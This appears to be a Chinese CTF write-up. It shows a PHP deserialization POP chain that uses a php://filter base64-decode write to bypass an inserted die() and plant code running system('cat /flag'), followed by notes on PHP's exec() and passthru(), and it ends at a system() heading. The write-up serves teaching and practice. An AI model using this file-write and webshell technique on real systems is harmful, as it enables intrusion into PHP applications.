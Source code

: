 `Flag`类里的`dosomething`函数下`include('./flag,php');`语句中是逗号，并没有正确包含flag文件。  
本题重点实际上是`CTF`类里的`dosomething`函数，因为`$part1`和`$part2`的内容我们都能通过反序列化控制，剩下的知识点和`exit()死亡绕过`类似  
`$part1`是要写入文件的文件名，`$part2`是写入的内容，但是会在我们写入的内容前插入`die()`函数，这个函数会终止程序的执行，所以要把这个插入的语句无效化  
这时候可以在`$part1`上动手脚，使用`php://filter协议`在`$part2`写入后对文件进行编解码  
```php
public function dosomething(){
    $useless   = '<?php die("+Genshin Impact Start!+");?>';
    $useful= $useless. $this->part2;
    file_put_contents($this-> part1,$useful);
}
```
如下操作会对文件内容进行base64解码操作，语句`<?php die("+Genshin Impact Start!+");?>`并不是base64格式的字符，解码后会变成乱码，而我们把`$part1`的内容base64编码后再传入，经过解码就是正常代码了  
但是要注意一个细节：  
- base64编码中只包含64个可打印字符（A-Z a-z 0-9 + /）'='补位，而在解码时，若遇到不在其中的字符，将会跳过这些字符，仅将合法字符组成一个新的字符串进行解码  
- base64编码会把3个字符编码为4个base64字符，而解码时就反过来，把4个base64字符解码为原字符。所以我们需要补位，确保我们的base64字符能被正常解码，即确保我们语句前面的**有效**字符是3的倍数。
    - 实际上并不需要数前面的有效字符有几个，只要在`CyberChef`中放入我们要绕过的字符和我们需要正常解码的字符，然后在这两段字符中补0~2个合法base64字符
```php
$part1="php://filter/write=convert.base64-decode/resource=flag.php"
```
这里我们需要补两个合法base64字符，加上`aa`即可  
最终pop链：  
```php
$pop = new Start;
$pop->barking = new CTF;
$pop->barking->part1="php://filter/write=convert.base64-decode/resource=flag.php";
$pop ->barking->part2= "aaPD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs=";
echo serialize($pop);
```
## PHP执行系统外部命令函数
主要是直到了个新的函数`passthru()`  
### exec()
```php
function exec(string $command,array[optional] $output,int[optional] $return_value)
<?php
    echo exec("ls",$file);
    echo "</br>";
    print_r($file);
?>
```
执行结果：
```
test.php
Array( [0] => index.php [1] => test.php)
```
exec 执行系统外部命令时不会输出结果，而是返回结果的最后一行，如果你想得到结果你可以使用第二个参数，让其输出到指定的数组，此数组一个记录代表输出的一行，即如果输出结果有20行，则这个数组就有20条记录，所以如果你需要反复输出调用不同系统外部命令的结果，你最好在输出每一条系统外部命令结果时清空这个数组，以防混乱。第三个参数用来取得命令执行的状态码，通常执行成功都是返回０。
### passthru()
```php
function passthru(string $command,int[optional] $return_value)
<?php
    passthru("ls");
?>
```
执行结果：
```
index.phptest.php
```
知识点：
passthru与system的区别，passthru直接将结果输出到浏览器，不需要使用 echo 或 return 来查看结果，不返回任何值，且其可以输出二进制，比如图像数据。
### system()
知识点：